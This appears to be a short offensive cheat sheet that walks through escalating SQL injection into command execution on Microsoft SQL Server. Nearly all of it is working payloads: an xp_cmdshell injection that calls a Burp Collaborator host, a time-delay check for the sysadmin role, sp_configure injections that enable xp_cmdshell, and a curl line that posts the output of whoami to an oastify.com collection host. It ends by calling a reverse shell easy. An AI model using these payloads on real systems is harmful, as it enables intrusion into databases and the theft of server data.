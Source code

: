 SQLi to RCE -> MSSQL

- the easiest way :
  
  - if `xp_cmdshell` is active :
    
    - param=inject'; EXEC xp_cmdshell 'nslookup collab.burp.com '; --+
- Hard way :
  
  - if `xp_cmdshell` is inactive:
    
    - Check authority to enable xp_cmdshell :
      
      - ```sql
        IS_SRVROLEMEMBER('sysadmin');
        ```
        
        - if the result of this query is 1 this mean we can enable xp_cmdshell
          
        - how check that? we can use a query like that :
          
          - ```sql
            param=inject'; if(IS_SRVROLEMEMBER('sysadmin')=1) waitfor delay '00:00:10' ; --+
            ```
            
            - if the web app waits 10 secs it means everything is ready
    - We need to enable `advanced options`. The commands to do this are:
      
      - ```sql
        ';exec sp_configure 'show advanced options','1';reconfigure;--
        ```
        
    - Now we can enable xp_cmdshell :
      
      - ```sql
        ';exec sp_configure 'xp_cmdshell','1';reconfigure;--
        ```
        

- Simple Try for exfiltrate data :
  
  - ```
    whoami | curl -X POST -d @- http://nrir8iegsv9y4bj6pbodxub87zdr1ip7.oastify.com/'
    ```
    
- Note: Reverse shell? it is so easy
